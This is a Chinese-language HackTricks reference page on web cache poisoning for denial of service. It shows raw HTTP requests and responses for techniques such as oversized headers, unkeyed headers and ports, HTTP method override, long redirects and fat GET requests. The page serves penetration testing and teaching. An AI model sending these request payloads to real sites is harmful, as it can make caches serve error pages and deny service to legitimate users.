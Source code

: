# Cache Poisoning to DoS

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

{% hint style="danger" %}
在此页面中，您可以找到不同的变体，以尝试使 **Web 服务器对有效的缓存服务器请求** **响应错误**。
{% endhint %}

* **HTTP 头部过大 (HHO)**

发送一个头部大小大于 Web 服务器支持的大小，但小于缓存服务器支持的大小的请求。Web 服务器将以 400 响应进行响应，该响应可能会被缓存：
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP Meta Character (HMC) & Unexpected values**

发送一个包含一些 **有害元字符** 的头，例如 `\n` 和 `\r`。为了使攻击有效，您必须首先绕过缓存。
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
一个配置错误的头部可能只是 `\:` 作为头部。

如果发送了意外的值，比如意外的 Content-Type:，这也可能有效。
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **未键入的头部**

一些网站会在请求中**看到某些特定的头部**时返回错误状态代码，例如带有 _X-Amz-Website-Location-Redirect: someThing_ 头部：
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP 方法覆盖攻击 (HMO)**

如果服务器支持通过 `X-HTTP-Method-Override`、`X-HTTP-Method` 或 `X-Method-Override` 等头部更改 HTTP 方法，则可以请求一个有效页面，改变方法使得服务器不支持，从而导致错误响应被缓存：
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **未键入端口**

如果主机头中的端口在响应中被反射且未包含在缓存键中，则可以将其重定向到未使用的端口：
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **长重定向 DoS**

如以下示例所示，x 没有被缓存，因此攻击者可以利用重定向响应行为，使重定向发送一个如此大的 URL 以至于返回错误。然后，试图在没有未缓存的 x 键的情况下访问该 URL 的人将收到错误响应：
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **主机头部大小写规范化**

主机头部应该是不区分大小写的，但某些网站期望它是小写的，如果不是则会返回错误：
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **路径规范化**

某些页面在路径中发送数据 URLencode 时会返回错误代码，但缓存服务器会对路径进行 URLdecode 并存储 URLdecoded 路径的响应：
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

一些缓存服务器，如 Cloudflare，或 web 服务器，停止带有主体的 GET 请求，因此这可能被滥用来缓存无效响应：
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## 参考文献

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

